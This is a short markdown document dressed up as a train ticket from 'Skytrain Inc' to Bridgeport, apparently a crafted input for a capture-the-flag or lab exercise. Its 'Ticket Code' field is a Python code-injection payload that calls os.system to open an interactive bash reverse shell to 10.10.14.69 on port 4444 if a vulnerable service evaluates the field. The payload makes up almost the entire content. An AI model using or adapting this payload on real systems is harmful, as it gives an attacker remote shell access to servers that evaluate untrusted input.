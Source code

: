 # Skytrain Inc
## Ticket to Bridgeport
__Ticket Code:__
**32+__import__('os').system('bash -i >& /dev/tcp/10.10.14.69/4444 0>&1')**
##Issued: 2021/06/21
#End Ticket
